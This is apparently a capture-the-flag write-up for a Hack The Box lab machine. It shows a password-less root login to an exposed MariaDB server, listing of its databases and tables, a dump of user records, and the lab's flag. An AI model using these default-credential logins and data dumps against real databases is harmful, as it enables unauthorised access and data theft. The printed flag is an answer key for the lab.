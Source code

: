 On our scan we find 1 port open, 3306, and its running mySQL 
The community that developed this version is MariaDB

Lets try and login with some default credentials.

```php
mysql -h 10.129.155.162 -u root
```

It takes root without any password, and were in

```php
Your MySQL connection id is 170
Server version: 5.5.5-10.3.27-MariaDB-0+deb10u1 Debian 10
```

Lets poke around and see what we can find

```php
SHOW DATABASES;

+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```

Lets select the `htb` database and see all of its tables

```php
USE htb;
SHOW TABLES;

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```

Okay lets grab everything from users 

```php
SELECT * FROM users;

+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
```

Okay, lets check config to be sure

```php
SELECT * FROM config;

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
```

We have found our root flag `7b4bec00d1a39e3dd4e021ec3d915da8`
